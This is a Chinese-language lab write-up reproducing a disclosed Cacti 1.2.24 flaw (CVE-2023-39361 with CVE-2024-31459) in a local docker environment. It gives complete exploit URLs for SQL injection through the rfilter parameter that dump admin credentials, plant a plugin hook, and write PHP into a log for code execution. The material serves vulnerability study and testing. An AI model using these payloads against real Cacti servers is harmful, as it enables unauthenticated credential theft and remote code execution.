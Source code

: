 # Cacti rfilter SQL注入导致远程代码执行漏洞（CVE-2023-39361/CVE-2024-31459）

Cacti是一个全面的网络图形化解决方案，旨在利用RRDTool的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在Cacti 1.2.24及更早版本中，graph_view.php文件存在一个严重的漏洞，当启用guest用户时，未经任何身份验证的攻击者通过'rfilter'参数即可执行SQL注入攻击，最终可能导致远程代码执行。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 环境搭建

执行以下命令启动Cacti 1.2.24服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:8080`进入Cacti界面。默认凭据为admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击"下一步"按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用guest用户。你可以以管理员身份登录，导航至`Configuration -> Authentication`页面，并启用guest用户：

![](1.png)

## 漏洞复现

该漏洞位于`graph_view.php`文件中的`grow_right_pane_tree`函数内。当action参数设置为'tree_content'时，用户输入的rfilter参数由`html_validate_tree_vars`函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止SQL注入。

要利用此漏洞，向graph_view.php端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：

![](2.png)

由于Cacti支持堆叠查询，你可以利用此漏洞结合[CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv)实现本地文件包含。

首先，添加一个指向`log/cacti.log`文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错SQL注入，将PHP代码写入`log/cacti.log`文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO函数将执行并显示：

![](3.png)
